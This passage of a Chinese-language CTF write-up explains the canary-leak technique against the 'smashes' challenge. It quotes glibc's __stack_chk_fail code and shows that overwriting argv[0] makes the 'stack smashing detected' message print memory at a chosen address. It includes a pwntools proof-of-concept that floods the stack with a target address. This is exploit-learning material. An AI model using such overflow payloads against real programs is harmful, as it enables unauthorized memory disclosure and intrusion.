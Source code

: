 我们来看一下源码
__stack_chk_fail :
```cpp
void 
__attribute__ ((noreturn)) 
__stack_chk_fail (void) {   
	__fortify_fail ("stack smashing detected"); 
} 
```

fortify_fail 
```cpp
void 
__attribute__ ((noreturn)) 
__fortify_fail (msg)
   const char *msg; {
      /* The loop is added only to keep gcc happy. */
         while (1)
              __libc_message (2, "*** %s ***: %s terminated\n", msg, __libc_argv[0] ?: "<unknown>") 
} 
libc_hidden_def (__fortify_fail)
```

可见，__libc_message 的第二个`%s`输出的是argv[0]，argv[0]是指向第一个启动参数字符串的指针，而在栈中，大概是这样一个画风

![](canary_a768142147ca3976598941b5c6c67161.png)

所以，只要我们能够输入足够长的字符串覆盖掉argv[0]，我们就能让canary保护输出我们想要地址上的值。

听起来很美妙，我们可以试试看。

先写如下poc:

```python
from pwn import *
context.log_level = 'debug'

#cn = remote('pwn.jarvisoj.com', 9877)
cn = process('pwn_smashes')
cn.recv()
cn.sendline(p64(0x0000000000400934)*200) #直接用我们所需的地址占满整个栈
cn.recv()
cn.sendline()
cn.recv()

#.rodata:0000000000400934 aHelloWhatSYour db 'Hello!',0Ah         ; DATA XREF: func_1+1o
#.rodata:0000000000400934                 db 'What',27h,'s your name? ',0
#.rodata:000000000040094E ; char s[]
#.rodata:000000000040094E s               db 'Thank you, bye!',0  ; DATA XREF: func_1:loc_400878o
#.rodata:000000000040095E                 align 20h
#.rodata:0000000000400960 aNiceToMeetYouS db 'Nice to meet you, %s.',0Ah
#.rodata:0000000000400960                                         ; DATA XREF: func_1+3Fo
#.rodata:0000000000400960                 db 'Please overwrite the flag: ',0
#.rodata:0000000000400992                 align 8
#.rodata:0000000000400992 _rodata         ends
```
